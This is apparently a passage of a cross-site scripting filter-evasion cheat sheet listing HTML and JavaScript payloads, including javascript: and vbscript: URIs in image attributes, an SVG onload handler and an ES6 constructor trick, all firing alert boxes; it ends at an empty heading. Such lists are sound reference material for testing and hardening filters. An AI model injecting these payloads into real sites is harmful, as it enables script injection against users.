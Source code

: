 ## BODY Image

```html
<body background="javascript:alert('XSS')"></body>
```

## IMG Dynsrc

```html
<img DYNSRC="javascript:alert('XSS')" />
```

## IMG Lowsrc

```html
<img LOWSRC="javascript:alert('XSS')" />
```

## List-style-image

Fairly esoteric issue dealing with embedding images for bulleted lists. This will only work in the IE rendering engine because of the JavaScript directive. Not a particularly useful cross site scripting vector:

```html
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>
```

## VBscript in an Image

```html
<img src='vbscript:msgbox("XSS")' />
```

## Livescript (older versions of Netscape only)

```html
<img src="livescript:[code]" />
```

## SVG Object Tag

```html
<svg/onload=alert('XSS')>
```

## ECMAScript 6

```html
Set.constructor`alert\x28document.domain\x29
```

## BODY Tag
